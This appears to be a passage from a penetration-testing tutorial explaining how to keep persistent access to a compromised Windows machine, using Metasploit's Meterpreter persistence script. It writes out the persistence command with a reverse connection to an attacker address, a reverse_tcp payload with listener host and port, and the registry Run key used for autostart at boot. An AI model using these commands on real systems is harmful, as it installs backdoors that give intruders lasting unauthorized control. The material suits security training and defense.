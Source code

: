 Note: This is a common technique used by malware. It ensures that you can change the DNS binding to point to your IP address using the DNS management panel.

**Exploitation Process**

1. Upload the backdoor to the victim.
2. Execute the file:
   - It will attempt to connect back to our listener at predefined intervals (e.g., every 5-6-10 seconds).
3. Run it automatically at boot:
   - This can be done by editing the Windows registry, services, task scheduler, `rc.local`, or `init.d`, depending on the operating system.

**Automating with Metasploit**

Metasploit can automate the entire process. You don’t need to worry about scripting the file, uploading it, or editing the registry and services manually. Once you have a Meterpreter session, you can run a script to automate the process. The script is designed for Windows machines.

**Running the Persistence Script**

From a Meterpreter session, you can view the options for the persistence script using:
```
run persistence -h
```
The script allows customization such as choosing where to upload the file, which payload to use, the connection interval, how to start the backdoor, and more.

**Example of Configuring Persistence**

Here are the options used to configure the persistence script:
- `-A` starts the handler on our machine.
- `-X` starts the agent at boot. (Requires SYSTEM privileges.)
- `-i 5` sets the connection attempt interval to every 5 seconds.
- `-p 8080` specifies the port for the reverse connection.
- `-r [IP_Address]` specifies our IP address.

**Running the Script**

After executing the script, it will:
- Automatically create the backdoor.
- Upload the backdoor file.
- Set the registry keys to ensure the backdoor starts at boot.

Example command:
```
run persistence -A -X -i 5 -p 8080 -r <attacker-ip>
```

**Detailed Steps**

1. **Creating the Payload:** 
   - `windows/meterpreter/reverse_tcp`
   - `LHOST=192.168.102.147 LPORT=8080`
   
2. **Persistent Script:** 
   - Written to `C:\Windows\TEMP\flKiuvjYDY.vbs`
   
3. **Executing the Script:** 
   - Upload the backdoor file.
   - Run the backdoor.
   - Install it into autorun via the Windows Registry key:
     - `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\nZVDeQbFvEi`
